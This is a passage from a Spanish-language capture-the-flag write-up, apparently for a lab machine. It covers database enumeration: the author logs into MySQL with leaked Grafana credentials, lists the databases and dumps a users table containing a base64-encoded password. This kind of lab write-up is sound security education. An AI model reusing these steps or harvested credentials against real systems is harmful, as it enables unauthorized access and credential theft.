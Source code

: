 ### Database Enumeration

Parece los datos de conexión a una base de datos mysql, podemos probar dado que el puerto esta abierto.

```mysql
❯ mysql -u grafana -p'dontStandSoCloseToMe63221!' -h 10.10.11.183 -P 3306
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 17
Server version: 8.0.30-0ubuntu0.20.04.2 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]\>
```

Nos hemos podido conectar! Vamos a listar las bases de datos:

```mysql
MySQL [(none)]\> show databases;
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
6 rows in set (0.098 sec)
```

Voy a enumerar whackywidget, primero listaré las tablas de esa base de datos (usa la base de datos primero)

```mysql
MySQL [(none)]\> use whackywidget
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [whackywidget]\> show tables;
+------------------------+
| Tables_in_whackywidget |
+------------------------+
| users                  |
+------------------------+
```

Vamos a ver el contenido de la tabla:

```mysql
MySQL [whackywidget]\> select * from users;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
```
